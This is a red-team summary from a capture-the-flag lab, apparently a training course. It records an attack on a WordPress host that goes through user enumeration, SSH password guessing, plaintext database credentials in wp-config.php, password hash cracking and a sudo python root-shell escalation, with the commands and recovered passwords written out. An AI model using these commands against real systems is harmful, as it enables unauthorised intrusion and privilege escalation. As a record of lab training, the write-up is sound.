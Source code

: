 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap --script nmap-vulners -sV 192.168.1.110
```         
 ![](2021-05-06-19-13-21.png)
 ![](2021-05-06-19-14-12.png)
 ![](2021-05-06-19-14-42.png)
 ![](2021-05-06-19-14-55.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH version 6.7p1
  - Apache httpd 2.4.10

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - Wordpress database password stored in plaintext
  - User account able to run python commands with sudo allowing for privilege  escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:Flag1{b9bbcb33ellb80be759c4e844862482d}
    - **Exploit Used**
      - I did a WPscan and enumerated the users, saw the user Michael and was able to get an SSH session after a few password attempts. Once I had a shell I started with by using the find command to look for flag1.txt, this came up empty. I then did the same command for flag2.txt and saw it was located in /var/www. At first I thought flag1 might be in the previous directory but there were no files, only more directories. So I went inside of the html directory located in the same folder as flag2.txt and saw a bunch of files. I started grepping through the files and was able to find flag1 in service.html
      -        wpscan --url http://192.168.1.110.com --enumerate vp,u
               ssh michael@192.168.1.110
               1st password attempted: leahcim
               2nd password attempted: password
               3rd password attempted: michael
               find / -iname flag1.txt
               find / -iname flag2.txt
               cd /var/www
               cd ..
               cd /var/www/html
               grep flag about.html
               grep flag contact.php
               grep flag elements.html
               grep flag index.html
               grep flag service.html
               ![](2021-05-06-20-43-01.png)

  - `flag2.txt`:Flag2{fc3fd58dcdad9ab23faca6e9a3e581c}
    - **Exploit Used**
      - I again used a WPscan to find the user Michael, guessed his password for an SSH session, and used the find command to look for flag2.txt. It was located in /var/www 
      - find / -iname flag2.txt
      
      ![](2021-05-06-20-41-01.png)
      ![](2021-05-06-20-41-47.png)

 - `flag3.txt`: Flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - After locating the wp-config.php file within /var/www/html/wordpress I was able to discover the database username and password. These were listed as root and R@v3nSecurity respectively. and the host name was localhost
      ![](2021-05-06-20-46-24.png)
      I then used mysql to get into the DB and started looking for flag3. I first looked for the databases available, saw one titled wordpress so went into it. Then I pulled up the tables and started looking through them all from the top down. Eventually I found flag3 inside of wp_posts
      ![](2021-05-06-20-56-25.png)  
      - cd /var/www/html/wordpress
               nano wp-config.php
               mysql -u root -p'R@v3nSecurity' -h localhost
               show databases;
               use wordpress;
               show tables;
               select * from wp_commentmeta;
               select * from wp_comments;
               select * from wp_links;
               select * from wp_options;
               select * from wp_postmeta;
               select * from wp_posts;

  - `flag4.txt`:Flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Since I was inside of the SQL DB I went to the wp_users table to find the password hashes for the user accounts. I copied the hashes and echoed them into a new file I called finalprojhashes.txt. I then ran John the ripper agaisnt the file and was able to find Stevens password. I then used this combo to SSH in as Steven. Once I had a shell as the Steven user I checked the sudo privileges of Steven and saw that he could run the python command as sudo. I then spent some time on google looking for ways to use python with sudo to escalate to root. I eventually found the command "python -c 'import pty;pty.spawn("/bin/bash")" which was listed as a typical PTY upgrade using python. Once I ran this command I was able to get root access, then I ran a find command to look for flag4. I found it in /root. A quick cat of the file and I was done. 
      -        select * from wp_users;
               copy Micheal's hash and then: echo 'Michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0' >> finalprojhashes.txt
               copy Steven's hash and then: echo 'Steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' >> finalprojhashes.txt
               john finalprojhashes.txt
               ssh steven@192.168.1.110
               password: pink84
               sudo -l
               sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
               find / -iname flag4.txt
               cat /root/flag4.txt


    ![](2021-05-06-21-14-20.png)
    ![](2021-05-06-21-19-29.png)
    ![](2021-05-06-21-22-16.png)